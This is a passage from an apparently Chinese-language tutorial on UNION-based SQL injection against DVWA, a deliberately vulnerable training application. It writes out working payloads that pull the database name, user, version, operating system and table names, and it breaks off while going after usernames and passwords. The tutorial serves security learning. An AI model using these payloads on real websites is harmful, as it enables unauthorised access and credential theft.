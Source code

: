 ```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),user()#`;


```

![](http://upload-images.jianshu.io/upload_images/6230889-e0203460ff81821b.png)

通过上图返回信息，我们成功获取到：

*   当前网站使用数据库为 dvwa .
*   当前执行查询用户名为 root@localhost .

同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

*   version() 获取当前数据库版本.
*   @@version_compile_os 获取当前操作系统。

实际执行的 Sql 语句是:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;


```

![](http://upload-images.jianshu.io/upload_images/6230889-9ba5c1a172be5cca.png)

通过上图返回信息，我们又成功获取到：

*   当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
*   当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。  
`information_schema` 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息, 如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：  
实际执行的 Sql 语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;


```

![](http://upload-images.jianshu.io/upload_images/6230889-d00a04753ea91a27.png)

通过上图返回信息，我们再获取到：

*   dvwa 数据库有两个数据表，分别是 guestbook 和 users .

**有些同学肯定还不满足目前获取到的信息，那么我们接下来尝试获取重量级的用户名、密码。**  
由经验我们可以大胆猜测 users 表的字段为 user 和 password ，所以输入：`1' union select user,password from users#`进行查询：  
实际执行的 Sql 语句是：
